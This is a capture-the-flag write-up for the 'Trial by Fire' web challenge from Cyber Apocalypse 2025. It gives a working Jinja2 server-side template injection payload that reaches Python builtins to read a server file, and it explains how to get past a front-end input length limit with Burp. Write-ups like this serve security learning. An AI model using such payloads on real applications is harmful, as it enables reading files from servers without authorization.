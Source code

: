 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Trial by Fire Writeup
desc: Check out our writeup for Trial by Fire for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: web
challenge: Trial by Fire
tags: "web, twh, ssti"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```



> Solved by thewhiteh4t


- We have an input and a hint for SSTI `Can you read the runes? Perhaps 49 is the key.`
- On the battle result page we can see that SSTI is working


![](https://i.imgur.com/XcNrIpA.png)

- Payload :

```
{% raw %}
    {{ request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
{% endraw %}
```

- Length of the input is restricted in the front-end, so we can either edit the length in inspect or simply use burp


![](https://i.imgur.com/aBge1Lj.png)

